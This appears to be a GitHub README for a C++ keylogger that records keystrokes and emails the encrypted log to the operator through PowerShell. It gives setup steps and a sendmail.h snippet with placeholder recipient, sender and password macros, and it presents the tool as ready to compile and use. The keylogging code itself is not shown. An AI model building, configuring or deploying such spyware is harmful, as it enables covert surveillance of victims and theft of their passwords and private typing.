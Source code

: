# Keylogger written in C++ that captures keystrokes and sends them to you through email

## Usage
  ### Edit following lines in sendmail.h to your info and then compile to executable 


```sh

#define SCRIPT_NAME "[powershell_name].ps1"

//sendmail.h uses powershell to send an email detailing the keystrokes recorded within the time frame
//by attaching the encrypted .log file to the email
namespace Mail
{
    #define X_EM_TO "[recipient email address]"
    #define X_EM_FROM "[sender email address]"
    #define X_EM_PASS "[sender email password]"
...

}

```

#### It will send all captured data to specified email address
